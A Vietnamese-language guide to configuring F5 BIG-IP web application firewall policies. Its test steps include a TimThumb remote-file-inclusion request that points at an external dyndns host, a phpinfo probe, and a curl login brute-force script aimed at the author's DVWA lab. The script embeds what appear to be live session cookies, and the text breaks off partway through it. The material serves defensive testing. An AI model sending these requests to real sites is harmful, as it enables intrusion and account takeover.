# Advanced Web Application Firewall and API Protection
## I. Giới thiệu tổng quan

Web Application Firewall (WAF) - Web Application and API Protection (WAAP)

## II. Hướng dẫn cấu hình
### 1. Tìm hiểu môi trường, ứng dụng, các thiết lập cần thiết ban đầu

Trước hết, cần cấu hình lưu log các vi phạm, trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Event Logs` > `Logging Profiles`, bấm vào nút `Create`

Tại màn hình tiếp theo:
- Đặt tên cho profile, ví dụ `security_log_profile`
- Chọn `Application Security` (đối với tính năng WAF và API Protection)
- Chọn `DoS Protection` (đối với tính năng Layer 7 Dos Protection)
Nếu chọn mục `DoS Protection`, cần chọn ô `Local Publisher` trong tab tương ứng hiện ra sau đó
- Chọn `Bot Defense` (đối với tính năng Layer 7 Dos Protection)
Nếu chọn mục `Bot Defense`, cần chọn ô `Local Publisher` trong tab tương ứng hiện ra sau đó. Ngoài ra, đối với `Bot Defense`, cần chọn thêm ít nhất 1 loại request cần log, ví dụ `Untrusted Bot`, `Malicious Bot`, `Suspicious Browser`

Bấm vào `Create` để tạo log profile.

### 2. Tạo security policy

> Lưu ý: Trước khi tiến hành các bước dưới đây (với bất kỳ loại policy nào), cần đảm bảo rằng ứng dụng đang hoạt động với F5 BIG-IP đóng vai trò như thiết bị cân bằng tải, reverse proxy. Nghĩa là các cấu hình liên quan như DNS, node, pool, monitor, ssl, virtual server đều đang hoạt động đúng và người sử dụng có thể truy cập bình thường.

#### a. Khởi tạo chính sách bảo mật chế độ triển khai theo loại ứng dụng (ví dụ Wordpress)
Trường hợp này, người quản trị bảo mật đã có hiểu biết rằng ứng dụng mà mình đang thiếp lập chính sách bảo mật được phát triển dựa trên wordpress
(https://vi.wordpress.org/). Không tiến hành các bước bên dưới nếu không phải.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:
- Policy Name : đặt tên cho policy, ví dụ `wordpress_waf_policy`
- Policy Template: chọn mục `Application-ready templates` > `Wordpress v4.9`
- Virtual Server: chọn virtual server sẽ apply (đang chạy Wordpress trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ.

> Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công vào lỗ hổng bảo mật của Wordpress, ví dụ CVE-2014-4663 (https://blog.sucuri.net/2011/08/attacks-against-timthumb-php-in-the-wild-list-of-themes-and-plugins-being-scanned.html).
Để thực hiện khai thác lỗ hổng, gửi một GET request tới đường dẫn `/wp-content/plugins/wordpress-gallery-plugin/timthumb.php?src=http://picasa.com12345.dyndns.org/1.php`. Nếu cấu hình thành công, hệ thống F5 BIG-IP sẽ chặn khai thác này, đưa ra một thông báo lỗi và kèm theo đó là một số `Support ID`, ghi nhận lại mã số này để tra cứu log. Truy cập vào giao diện quản trị F5 BIG-IP, vào mục `Security` > `Event Logs` > `Application` > `Requests`, nhập mã Support ID vào bộ lọc tìm kiếm, ta sẽ thấy một bản ghi log liên quan đến việc F5 BIG-IP chặn lại hành vi khai thác lỗ hổng bảo mật này.

#### b. Khởi tạo chính sách bảo mật chế độ triển khai nhanh - Rapid deployment policy
Trường hợp này, người quản trị hệ thống muốn cấu hình nhanh một chính sách bảo mật mà qua đó có thể áp dụng ngay, không mất quá nhiều thời gian cho hệ thống tự học (learn) cũng như giảm thiểu tình trạng false positive alarms.
Nói chung, kiểu triển khai này có thể giải quyết được đa số các yêu cầu về bảo mật cho một ứng dụng web.


Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:
- Policy Name : đặt tên cho policy, ví dụ `rapid_waf_policy`
- Policy Template: chọn mục `Rapid Deployment Policy`
- Virtual Server: chọn virtual server sẽ apply (đang chạy ứng dụng trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`
- Enforcement Mode: được đặt là `Transparent` - nghĩa là hệ thống vẫn kiểm tra nhưng không chặn ngay cả khi có vi phạm. Điều này giúp người quản trị bảo mật có thời gian xem xét các thiết lập bảo mật trước khi chuyển sang chế độ `Block`. Nếu muốn, người quản trị có thể bật chế độ `Blocking` ngay tại bước này.
- Signature Staging: mặc định được bật (`Enable`), nghĩa là hệ thống sẽ chưa chặn ngay các vi phạm dựa trên signature nhằm tránh tình trạng false positive. Nếu muốn, người quản trị có thể `Disable` chế độ này luôn.
- Server Technologies: có thể nhập (chọn trong danh sách) các công nghệ mà ứng dụng đang sử dụng, ví dụ phổ biến như Apache làm web server, engine PHP, cơ sở dữ liệu MySQL.. Các thiết lập này giúp F5 BIG-IP xây dựng bộ các signature cho phù hợp.

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ (nếu `Enforcement Mode` là `Blocking` và `Signature Staging` là `Disable`)

> Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công dò quét xem hệ thống có vô tình chứa file phpinfo.php hay không (file này thường chứa hàm gọi `phpinfo()` sẽ hiện ra rất nhiều thông tin hệ thống của web server cũng như môi trường PHP, hacker có thể khai thác các thông tin này để thực hiện các hành vi tấn công nguy hiểm khác.
Để thực hiện khai thác lỗ hổng, gửi một GET request tới đường dẫn `/phpinfo.php`. Nếu cấu hình thành công, hệ thống F5 BIG-IP sẽ chặn khai thác này, đưa ra một thông báo lỗi và kèm theo đó là một số `Support ID`, ghi nhận lại mã số này để tra cứu log. Truy cập vào giao diện quản trị F5 BIG-IP, vào mục `Security` > `Event Logs` > `Application` > `Requests`, nhập mã Support ID vào bộ lọc tìm kiếm, ta sẽ thấy một bản ghi log liên quan đến việc F5 BIG-IP chặn lại hành vi khai thác lỗ hổng bảo mật này.

Để xem chi tiết hơn về những thiết lập của dạng Rapid Deployment Policy, có thể truy cập vào `Security` > `Application Security` > `Policy Building` > `Learning and Blocking Settings` (chọn đúng tên policy, ví dụ: rapid_waf_policy)

#### c. Khởi tạo chính sách bảo mật chế độ triển khai cơ bản - Fundamental
Trường hợp này, người quản trị mong muốn hệ thống F5 BIG-IP đưa ra các chính sách bảo mật tự động. Dựa vào lưu lượng thực tế F5 BIG-IP sẽ đưa ra các đánh giá và gợi ý và thậm chí tự động áp dụng các luật bảo vệ.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:
- Policy Name : đặt tên cho policy, ví dụ `fundamental_waf_policy`
- Policy Template: chọn mục `Fundamental`
- Virtual Server: chọn virtual server sẽ apply (đang chạy ứng dụng trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`
- Enforcement Mode được đặt là `Blocking` ngay khi chọn Policy Template là Fundamental
- Policy Building Learning Mode: chuyển về chế độ Automatic (Fully Automatic)
- Trusted IP Addresses: người quản trị nên thiết lập một vài địa chỉ IP hoặc dải mạng tin cậy, nhờ đó F5 BIG-IP có thể tự động thiếp lập chính sách bảo mật và không chặn các địa chỉ IP này trong quá trình học và xây dựng chính sách bảo mật.
- Policy Builder Learning Speed: mặc định là `Medium` (học càng chậm càng chặt chẽ nhưng đòi hỏi ứng dụng có nhiều người truy cập hàng ngày và ngược lại)
- Signature Staging: mặc định được bật (`Enable`), nghĩa là hệ thống sẽ chưa chặn ngay các vi phạm dựa trên signature nhằm tránh tình trạng false positive. Nếu muốn, người quản trị có thể `Disable` chế độ này luôn.
- Server Technologies: có thể nhập (chọn trong danh sách) các công nghệ mà ứng dụng đang sử dụng, ví dụ phổ biến như Apache làm web server, engine PHP, cơ sở dữ liệu MySQL.. Các thiết lập này giúp F5 BIG-IP xây dựng bộ các signature cho phù hợp.

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ (nếu `Enforcement Mode` là `Blocking` và `Signature Staging` là `Disable`)

Bước tiếp theo, từ các địa chỉ Trusted IP, người dùng, người quản trị làm việc, thao tác với ứng dụng như bình thường để hệ thống F5 BIG-IP thu thập dữ liệu, học và gợi ý các chính sách.

Để xem hệ thống gợi ý những gì, truy cập vào `Security` > `Application Security` > `Policy Building` > `Traffic Learning`

Ví dụ như hình minh hoạ dưới đây:


Người quản trị có thể chọn một trong các hành động:
- Accept: chấp nhận gợi ý, chuyển thành thiết lập chính thức. Để ý phần score (%), con số này càng lớn nghĩa là F5 BIG-IP càng tự tin với gợi ý đó, khả năng gợi ý chính xác càng cao.
- Delete: xoá gợi ý này, không lưu gì vào policy. Gợi ý có thể lặp lại lần sau nếu có lưu lượng phù hợp. Trường hợp người quản trị chưa chắc chắn lắm về gợi ý có chính xác không nhưng muốn xoá tại thời điểm hiện tại
- Ignore: bỏ qua gợi ý này và yêu cầu F5 BIG-IP không lặp lại gợi ý như vậy nữa (nghĩa là báo với hệ thống này rằng gợi ý như vậy là không đúng, không cần thay đổi gì về policy)
- Export: lưu thông tin gợi ý này ra một file html để nghiên cứu phân tích hoặc gửi đi các bộ phận khác tham khảo trước khi quyết định.

Sau khi hoàn tất quá trình Review các gợi ý, nếu người quản trị muốn apply ngay cách luật đã được chấp nhận, bấm vào nút `Apply Policy`

Để xem các thiết lập hiện thời, truy cập vào `Security` > `Application Security` > `Policy Building` > `Learning and Blocking Settings`

Để xem chi tiết về những File types, Parameters.. mà hệ thống học được, truy cập vào `Security` > `Application Security` > `File types` hoặc `Parameters`..

Ví dụ như hình minh hoạ dưới đây, hệ thống đã học được một số loại file types như png, php 

Ví dụ như hình minh hoạ dưới đây, hệ thống tự học được các dạng file như jpg, png, php. Có 2 loại đặc biệt là * và no_ext:
- `*` nghĩa là các loại file còn lại (wildcard)
- `no_ext` nghĩa là không có phần mở rộng file nào trong URL


Tương tự như với 2 loại tạo chính sách bảo mật ở trên, người quản trị cũng có thể kiểm thử việc chặn truy cập không hợp lệ bằng một số kiểu tấn công/khai thác nào đó (Command Injection, SQL Injection, Cross-site scripting..).

#### d. Khởi tạo chính sách bảo mật để chặn lọc các tấn công theo OWASP Top 10
Trường hợp này, người quản trị bảo mật có mong muốn cấu hình các chính sách bảo mật nhằm ngăn chặn các tấn công được liệt kê trong danh sách Top 10 của OWASP.
> Lưu ý: đây chỉ là các gợi ý, dẫn dắt (guide) của F5 BIG-IP về việc thiết lập một hệ thống WAF sao cho tuân thủ và chống lại được top 10 loại tấn công được liệt kê của tổ chức OWASP. Trong quá trình thiết lập, người quản trị cần **cân nhắc kỹ càng** mỗi khi cấu hình một mục nào đó. Đồng thời, có một số mục nằm ngoài hệ thống WAF này, nhưng vẫn là một mục cần phải làm để tuân thủ, hệ thống này **tin tưởng hoàn toàn** vào người quản trị khi đưa ra quyết định rằng: *"tôi đã thực hiện điều đó rồi"*.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Guided Configuration` > `Web Application Protection`.

Bên dưới có 3 mục nhỏ:
- Web Application Comprehensive Protection: hệ thống sẽ hướng dẫn người quản trị cấu hình bảo vệ ứng dụng web một cách toàn diện (bao gồm cả WAF, DDOS, Bot Defense, hạn chế truy cập theo vùng địa lý, chặn địa chỉ IP độc hại)
- Web Application Protection: hệ thống sẽ hướng dẫn người quản trị cấu hình bảo vệ web với chức năng WAF. Ví dụ để bảo vệ trước các dạng tấn công Top 10 OWASP
- Traffic Security Policy: Thực hiện các chức năng bảo vệ (WAF) theo những điều kiện nhất định mà người quản trị cần chỉ rõ


Trong phạm vi của hướng dẫn này, ta chọn mục thứ 2: **Web Application Protection**.

Tại màn hình tiếp theo, hệ thống gợi ý về những việc cần/sẽ thực hiện. Trong đó có một số yêu cầu bắt buộc:
- Cấu hình DNS cho F5 BIG-IP, nếu người quản trị chưa thực hiện, có thể bấm vào đường link tương ứng để đến phần config DNS. Người quản trị có thể chọn bất cứ một DNS server nào cho phép truy vấn recursive, ví dụ 8.8.8.8 và/hoặc 1.1.1.1
- Cấu hình NTP cho F5 BIG-IP, phần này là để F5 BIG-IP có thể đồng bộ thời gian chính xác cho bản thân nó. Có thể chọn máy chủ vn.pool.ntp.org
- F5 BIG-IP cần có một default route và được phép truy cập trực tiếp ra Internet để có thể thực hiện các chức năng của mình, ví dụ cập nhật signature, database địa chỉ IP..

Cần thực hiện đầy đủ 3 mục trên trước khi bấm `Next` ở màn hình này.


Tiếp theo, hệ thống sẽ yêu cầu nhập vào hoặc lựa chọn các thông tin:
- Security Policy Name: đặt tên cho policy, ví dụ `top10owasp`
- Select Enforcement Mode: chọn Transparent nếu không muốn hệ thống WAF chặn truy cập vi phạm, chọn Block nếu muốn chặn ngay.
- Select type of policy to protect application: chọn `Application Specific` và chọn loại ứng dụng đang cần cấu hình bảo vệ (Drupal, SharePoint, Wordpress, OWA Exchange), nếu không nằm trong danh sách hoặc không rõ, chọn `Generic`
- Application Language: để mặc định là `Unicode (utf-8)`

Bấm `Save & Next`. 

Tại màn hình tiếp theo, chọn `Assign Policy to Virtual Server(s)`. Ở bước này, người quản trị có 2 lựa chọn:
- Use Existing: sử dụng một virtual server đã cấu hình sẵn và đang hoạt động bình thường (**khuyến nghị chọn mục này**, vì trước khi cấu hình WAF, người quản trị nên hoàn thành để sau dễ troubleshoot, rollback)
- Create New: tạo mới virtual server ngay tại màn hình này. Hệ thống yêu cầu người quản trị nhập vào các thông tin cần thiết để có thể tạo virtual server.

Bấm `Save & Next`. 

Màn hình tiếp theo, hệ thống thông báo là các thông tin cần thiết đã đủ, sẵn sàng deploy. Bấm vào nút `Deploy`

Màn hình tiếp theo, hệ thống thông báo các cấu hình đã được deploy. Bấm vào nút `Finish`.

Người quản trị cần thực hiện thêm một bước nữa: cấu hình/áp dụng security log profile cho virtual server đang bảo vệ. Vào menu `Local Traffic` > `Virtual Servers` > bấm vào `Virtual Server List`. 
Sau đó, click chọn virtual server đang cần bảo vệ để xem cấu hình. Tại màn hình tiếp theo, chọn Tab `Security` > `Policies`. 
Phần `Log Profile`, chọn security log profile muốn áp dụng rồi click vào nút `Update`. Có thể chọn một trong 2 loại có sẵn như `Log all requests` hoặc `Log illegal requests`, hoặc cũng có thể chọn loại đã được cấu hình từ trước như phần đầu của tài liệu này (bên trên, trong phần `Cấu hình lưu log các vi phạm`)

Xem lại tình trạng tuân thủ phòng chống Top 10 OWASP, truy cập vào `Security` > `Overview` > `OWASP Compliance`, click chọn policy vừa tạo.
Màn hình bên trái sẽ hiện ra tình trạng tuân thủ với Top 10 OWASP



Như hình minh họa phía trên nghĩa là tỉ lệ tuân thủ là 0/10 - chưa có mục nào tuân thủ hoàn toàn. Trong đó mục A2 và A3 chỉ tuân thủ 1 phần (theo % tương ứng được hiển thị).

Người quản trị cần xem chi tiết các mục và đánh giá xem có cần thực hiện các biện pháp gì, cấu hình gì để đảm bảo tuân thủ.

Ví dụ với mục **A1 Injection**, bấm vào đó, hệ thống sẽ cho chúng ta biết cần áp dụng:
- Danh sách các loại signature chống tấn công (Buffer Overflow, Command Execution..)
- Thực hiện thiết lập bảo vệ chống các cơ chế che dấu tấn công (Evasion Techniques)



Đối với các loại signature, bấm vào con số tương ứng (số lượng yêu cầu), hệ thống sẽ đưa ra màn hình cấu hình các signature, ví dụ bấm vào số 6, mục Buffer Overflow, hệ thống chỉ ra các signature cần áp dụng như hình minh họa dưới đây:



Như trường hợp trên, cả 6 signature này đang được cấu hình trong policy, tuy vậy chúng ở chế độ Staging (theo dõi vi phạm, chưa chặn ngay để tránh nhầm lẫn). Người quản trị cần test kỹ ứng dụng (và rà soát Event Logs) xem có khả năng bị chặn nhầm không? Nếu không, có thể chuyển từ chế độ Staging thành Enforce bằng cách chọn các signature đó và click vào nút `Enforce` và click vào `Apply Policy`.

Sau đó lại quay trở lại màn hình `OWASP Compliance`, lúc này sẽ thấy tỉ lệ tuân thủ cho mục A1 tăng lên (ví dụ, không còn là 0% nữa).
Thực hiện các bước tương tự với tất cả các loại Signature khác.

Riêng đối với một số cơ chế bảo vệ, ví dụ `Evasion Techniques`, người quản trị có 2 lựa chọn:

- Bỏ qua (ignore): bấm vào biểu tượng có hình tròn và đường gạch chéo


Sau đó click vào `Review & Update` và `Save & Apply`. Lúc này hệ thống hiểu rằng người quản trị không muốn áp dụng cơ chế này (có thể làm ảnh hưởng đến hoạt động bình thường của ứng dụng, chấp nhận rủi ro) nhưng vẫn muốn đánh dấu hạng mục này là hoàn thành (để đạt được 100%)

- Áp dụng (Enforce): bấm vào biểu tượng có dấu tick


Sau đó click vào `Review & Update` và `Save & Apply`. Lúc này hệ thống hiểu rằng người quản trị muốn áp dụng cơ chế bảo vệ này, và đánh dấu hoàn thành công việc.

Cứ như vậy, người quản trị làm lần lượt từ mục A2 đến A10, đôi khi, làm mục này xong thì tỉ lệ tuân thủ các mục khác cũng tự tăng lên vì chúng có cùng yêu cầu bảo mật. Ví dụ nếu hoàn thành A1 (100%), ta cũng sẽ được kết quả như sau:



Một số mục có tính chất *gợi ý*, không có tác động nào thực tế được thực hiện, chẳng hạn mục A10:


- Log Illegal Requests: ghi log các vi phạm
- Remote Logging: ghi log ra log server bên ngoài

Người quản trị hệ thống có thể cấu hình trên F5 BIG-IP để thực hiện các yêu cầu này hoặc không (tự giác), sau đó đánh dấu vào là đã tuân thủ hoặc bỏ qua.

Cá biệt, có những yêu cầu nằm ngoài hoàn toàn hệ thống F5 BIG-IP, chẳng hạn vấn đề rò quét lỗ hổng, cập nhật bản vá như dưới đây:



Nếu đã, đang và sẽ thực hiện định kỳ đầy đủ các hạng mục này, người quản trị có thể click vào nút đáp ứng "Requirement fulfilled".

Thực hiện tuân thủ Top 10 OWASP là một nỗ lực tập thể, nhiều thành phần cùng phải thực hiện. Hệ thống F5 BIG-IP chỉ đóng vai trò dẫn hướng và cấu hình các cơ chế bảo mật nhất định mà nó kiểm soát được.

#### e. Các cách thức bypass chức năng WAF
Trong quá trình áp dụng các chính sách, luật bảo vệ, có thể có lúc cần phải bypass tạm thời việc này, ví dụ để troubleshoot dễ dàng hơn. Có 2 cách thực hiện trên thiết bị F5 BIG-IP

**Chuyển qua lại chế độ Blocking và Transparent**

Truy cập vào `Security` > `Application Security` > `Security Policies` > `Policies List` (chọn đúng tên policy đang cần tác động).

Tại mục Enforcement Mode, chọn Transparent. Sau đó bấm nút `Save` và `Apply Policy`. Ở chế độ Transparent, hệ thống vẫn kiểm tra các truy cập, tuy nhiên sẽ không chặn ngay cả khi có vi phạm, có thể log lại các vi phạm này để người quản trị xem lại, phân tích.

**Chuyển qua lại chế độ bypass tính năng WAF**

Vào menu `Local Traffic` > `Virtual Servers` > bấm vào `Virtual Server List`. 
Sau đó, click chọn virtual server đang cần bypass. Tại màn hình tiếp theo, chọn Tab `Security` > `Policies`.
Phần `Application Security Policy`, chọn `Disabled`.

 

Với cách này, hệ thống F5 BIG-IP chỉ hoạt động đơn thuần như một thiết bị cân bằng tải hoặc reverse proxy, không có bất cứ một request nào được kiểm tra về mặt bảo mật. Mọi vi phạm cũng không được xem xét hay ghi log lại.

### 3. Thiết lập các signatures, signatureSet

Phần này mặc định rằng người quản trị đã cấu hình một chính sách bảo mật để bảo vệ ứng dụng web, tuy nhiên trong quá trình hoạt động thấy cần thiết phải thay đổi các dấu hiệu tấn công (attack signature). Ở đây:
- Signature (hay viết đầy đủ là attack signature): là một nhận dạng về dấu hiệu tấn công cụ thể. Hệ thống F5 BIG-IP có một cơ sở dữ liệu về các dấu hiệu tấn công như vậy và thường xuyên được cập nhật. Nếu trong quá trình kiểm tra HTTP request hoặc HTTP response, dữ liệu phù hợp với quy luật nhận dạng như vậy có thể sẽ bị coi là vi phạm chính sách bảo mật khi signature đó được áp dụng.
- SignatureSet là một tập hợp các signature, được nhóm theo một thể loại nào đó.

Để xem các signature đang được áp dụng đối với một policy, truy cấp vào `Security` > `Application Security` > `Security Policies` > `Policies List`, chọn policy cần xem. Sau đó bấm vào mục `Attack Signatures` 

Ví dụ:

 

Với mỗi signature, bấm vào biểu tượng mũi tên sẽ cho biết thông tin chi tiết, ví dụ:

 

Trong đó, lưu ý một số thông tin sau:
- Signature name: tên gọi của signature, phần nào đoán được nó là gì
- Signature ID: mã định danh của signature, sử dụng để tìm kiếm, mã định danh này là duy nhất đối với F5
- Learn: tạo ra các gợi ý cho người quản trị về việc có nên áp dụng signature này không dựa vào lưu lượng thực tế (Learning Suggestion)
- Alarm: tạo cảnh báo nếu có vi phạm
- Block: chặn tấn công nếu có vi phạm
- Staging: để ở chế độ giám sát, chưa chặn
- Enforce: thực hiện chặn vi phạm

Chế độ Signature Staging giúp hạn chế việc chặn nhầm vì nó chỉ tạo cảnh báo, giúp người quản trị có thời gian xem xét.

Ví dụ, việc truy cập vào một URI dạng phpinfo.php trong khi signature ID: 200010015 đang được bật, sẽ tạo ra một cảnh báo trong Events Log như sau:

 

Trong đó nêu rõ các thông tin về vi phạm này, động thời cũng chỉ ra rằng Signature này đang ở chế độ Staging (Staged), nên vi phạm vẫn được bỏ qua trên thực tế (thể hiện bằng mã 200 trả về từ máy chủ).

Nếu người quản trị cho rằng signature này cần phải chặn ngay lập tức, có thể vào mục `Attack Signatures` của policy tương ứng, tìm signature có ID đang cần thay đổi (trường hợp này là 200010015):


Chọn signature đó và bấm vào nút `Enforce`:



Sau đó xác nhận lại ở hộp thoại tiếp theo và bấm vào nút `Apply Policy`. Sau bước này, signature đó đã chuyển sang chế độ chặn trên thực tế (`Enforced`).

Người quản trị nên kiểm thử lại để xem kết quả

Truy cập sẽ bị chặn, với một thông báo tương tự như sau tại phía người dùng:


trong Events Log như sau:



> Lưu ý: trong phần log trên, `Applied Blocking Settings` đã là `Block` `Alarm` `Learn`, đồng thời không có mã trả về từ server nữa mà thay vào đó là N/A và một cái biển cấm mầu đỏ.

Ngược lại, nếu biết chắc rằng signature đó là chặn nhầm, cần phải cho phép người dùng truy cập mà không chặn hay cảnh báo gì cả, người quản trị có thể tắt signature đó đi (Disable), truy cập vào phần `Attack Signature`, chọn signature đó và bấm vào nút `Disable`, sau đó `Apply Policy`



Sau khi disable, cũng nên kiểm tra lại xem truy cập đã bình thường chưa, có log vi phạm gì không.

Với SignatureSet, thay vì thực hiện theo từng signature cụ thể như trên (có hàng nghìn signature như vậy), người quản trị có thể bật tắt theo nhóm. 

Truy cập vào `Security` > `Application Security` > `Policy Building` > `Learning and Blocking Settings`, chọn policy tương ứng, mở rộng mục `Attack Signatures`:


Nếu muốn thêm bớt các SignatureSet, bấm vào nút `Change`


> Lưu ý: cần bấm vào nút `Save` bên dưới và sau đó bấm vào nút `Apply Policy` bên trên để thay đổi có hiệu lực ngay.

### 4. Thiết lập chế độ chặn dựa vào địa chỉ IP theo khu vực địa lý

Trong một số trường hợp, người quản trị muốn cho phép hoặc ngăn chặn các truy cập đến từ một khu vực địa lý cụ thể nào đó. Để làm điều này, truy cập vào `Security` > `Application Security` > `Geolocation Enforcement`. Ví dụ dưới đây là chặn truy cập từ Đài Loan:



> Lưu ý: bấm `Save` và `Apply Policy` để thiết lập có hiệu lực ngay.

Kiểm tra trong Event Log:



Một thiết lập như bên dưới đây sẽ chỉ cho phép truy cập từ Việt Nam:



### 5. Thiết lập chế độ chặn dựa vào địa chỉ IP độc hại

Để thực hiện được tính năng này, cần đăng ký dịch vụ `IP Intelligent`, cách làm như sau:

Vào mục `Security` > `Network Firewall` > `IP Intelligence` > `Policies`. Bấm vào nút `Create` để tạo mới policy



Thực hiện:
- Đặt tên cho policy
- Thiết lập Default Action: hành động mặc định, ví dụ Drop
- Thiết lập Default Log Actions: mặc định có ghi log hay không
- Phần Category, thêm hoặc bớt các Category mong muốn kiểm soát



Cuối cùng, bấm vào nút `Commit Changes to System`. 
Bước tiếp theo, áp dụng policy này cho Virtual Server:
Vào `Local Traffic`  ››  `Virtual Servers : Virtual Server List`  ›› chọn virtual server đang cần tác động, ví dụ `vs_https_dvwa` như minh họa bên dưới, chọn Tab `Security` > `Policies`:

Trong mục `IP Intelligence`, chọn `Enabled` và chọn policy mới tạo ở trên


Click vào nút `Update`.

Để xem log các vi phạm này, vào `Security`  ››  `Event Logs : Network : IP Intelligence`

### 6. Thiết lập chế độ chống tấn công dò quét mật khẩu

Một trong những hình thức tấn công tương đối phổ biến vào các ứng dụng web là tấn công dò quét mật khẩu (brute-force attack). Kẻ tấn công biết được username, và sẽ thử nhiều lần với nhiều mật khẩu khác nhau cho đến khi thành công. Ví dụ dưới đây sẽ hướng dẫn cách cấu hình cho một ứng dụng cụ thể, các ứng dụng khác nhau sẽ có cách quản lý đăng nhập khác nhau, tham số khác nhau, cần có phân tích và hiểu biết nhất định trước khi thực hiện. Về cơ bản, các bước cần thực hiện trên hệ thống F5 BIG-IP là:

- Tạo `Login URL`, `Logout URL`
- Cấu hình `Session Tracking`
- Cấu hình `Brute-force attack Prevention`

Để tạo Login URL, cần biết ứng dụng nhận thông tin đăng nhập bằng cách nào:
- Giao thức HTTP hay HTTPS
- URL (ví dụ /login.php)
- Method (ví dụ POST)
- Parameter (ví dụ username, userid, password, pwd..)
- Nhận biết kết quả đăng nhập thành công hay thất bại thông qua response. Ví dụ trả về response code 200 hoặc 403, hoặc trả về 200 kèm theo đoạn text thể hiện thành công hay thất bại, hoặc thông tin nằm trong response header..

Để tạo Login URL, truy cập vào `Security`  ››  `Application Security : Sessions and Logins : Login Pages List`, bấm vào nút `Create` để tạo mới:



Sau đó bấm vào nút `Save`, tương tự, tạo Logout URL, để hệ thống biết khi nào người dùng Logout và ngừng theo dõi phiên làm việc của user.

Để tạo Logout URL, truy cập vào `Security`  ››  `Application Security : Sessions and Logins : Logout Pages List`, bấm vào nút `Create` để tạo mới:



Tiếp theo, bật tính năng theo dõi phiên làm việc của người dùng - `Session Tracking`, vào `Security`  ››  `Application Security : Sessions and Logins : Session Tracking`, bật `Session Awareness` trên `Login URL` vừa tạo:



Sau đó bấm `Save` và `Apply Policy`

Vào `Security`  ››  `Application Security : Brute Force Attack Prevention`, bấm nút `Create` để tạo một cấu hình mới:
- Lựa chọn login URL (login page) đã tạo ở bước trước.
- Thiết lập cho cơ chế bảo vệ dựa vào địa chỉ nguồn (Source-based Brute Force Protection)
- Thiết lập cho cơ chế bị tấn công phân tán (Distributed Brute Force Protection)



Sau đó bấm `Save` và `Apply Policy`

Vào giao diện command line, gõ các lệnh sau:

```
tmsh modify sys db asm.cs_qualified_urls value "/login.php"
save sys config
```

**Phần dưới đây sẽ là một thử nghiệm tấn công**

Thử đăng nhập vào ứng dụng với tài khoản hợp lệ, đảm bảo rằng việc đăng nhập xảy ra bình thường.

Thử đăng nhập vào ứng dụng với cùng username, nhưng sai mật khẩu, đảm bảo rằng ứng dụng vẫn hoạt động bình thường, có thông báo từ ứng dụng cho người dùng biết răng họ đã đăng nhập sai mật khẩu.

Với các thiết lập ở trên, thử đăng nhập vào ứng dụng sai liên tiếp 4 hoặc 5 lần trong 3 phút. Để ý kỹ, tại lần thứ 5, trình duyệt sẽ có 1 lần refresh do bị kích hoạt cơ chế phòng vệ `client-site integrity`, F5 BIG-IP sẽ gửi javascript tới trình duyệt, yêu cầu nó thực hiện và gửi lại kết quả.

Khảo sát Events Log, ta sẽ nhìn thấy một vi phạm như sau:



Thông tin trên cho thấy việc đăng nhập sai quá 3 lần đã được ghi nhận, hệ thống đã gửi javascript cho trình duyệt và javascript đó đã thực hiện thành công. Người dùng thực tế không nhận ra sự khác biệt rõ ràng nhưng máy chủ phía sau đã được bảo vệ.

Tuy nhiên, cách thức dò quét như trên là đối với một trình duyệt bình thường, người dùng bình thường. Kẻ tấn công có chủ đích thường viết script, chạy bot để tốc độ dò quét mật khẩu nhanh hơn, dưới đây là một đoạn script rất đơn giản để thử nghiệm:
```
#!/bin/bash

echo "login lan thu 1"
curl 'https://dvwa.bienlab.com/login.php' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en,en-US;q=0.9,vi;q=0.8' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: BIGIPAuthUsernameCookie=admin; f5currenttab="main"; f5mainmenuopenlist=""; f5advanceddisplay=""; security=low; TS019fa5f1030=0; f5_refreshpage="https%3A//dvwa.bienlab.com%3A8443/dms/policy/requests_ng.php"; BIGIPAuthCookie=kXZiWN1Ealng5up2idtyjYncdqw3J8pyMXm1HUSN; PHPSESSID=voonj10j3v6kgml8fbujpb5m47; f5formpage="/tmui/locallb/pool/resources.jsp?name=/Common/dvwa_pool"; TS019fa5f1=01ed81241150ca5c383559014eddb5ef5d6bcbc02d47f468362b4900732ac291511109b1e111b49704f1ceca516e3ef872921f9d3f' \
  -H 'Origin: https://dvwa.bienlab.com' \
  -H 'Referer: https://dvwa.bienlab.com/login.php' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Google Chrome";v="111", "Not(A:Brand";v="8", "Chromium";v="111"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-raw 'username=admin&password=password1&Login=Login&user_token=2b8360ffb89776248f4580e7627873e5' \
  -i

sleep 1

